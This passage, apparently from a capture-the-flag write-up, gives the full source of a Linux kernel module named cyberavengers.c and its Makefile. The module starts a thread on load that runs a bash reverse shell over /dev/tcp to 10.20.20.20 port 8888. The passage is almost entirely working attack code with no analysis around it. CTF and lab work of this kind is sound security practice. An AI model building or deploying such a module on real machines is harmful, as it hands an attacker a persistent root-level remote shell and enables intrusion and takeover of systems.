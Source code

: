 ### On the target, we create `cyberavengers.c`:

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/kthread.h>
#include <linux/delay.h>

#define REMOTE_IP "10.20.20.20"
#define REMOTE_PORT "8888"

static int reverse_shell_thread(void *data)
{
    char *argv[] = { "/bin/bash", "-c",
        "bash -i >& /dev/tcp/" REMOTE_IP "/" REMOTE_PORT " 0>&1", NULL };
    char *envp[] = { "PATH=/usr/bin:/bin", NULL };

    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
    return 0;
}

static int __init rev_init(void)
{
    printk(KERN_INFO "Reverse shell module loaded\n");
    kthread_run(reverse_shell_thread, NULL, "rev_shell");
    return 0;
}

static void __exit rev_exit(void)
{
    printk(KERN_INFO "Reverse shell module unloaded\n");
}

module_init(rev_init);
module_exit(rev_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("CTF Participant");
MODULE_DESCRIPTION("Kernel module reverse shell");
```

---

### Still on the target, we create `Makefile`:

```makefile
obj-m += cyberavengers.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

---
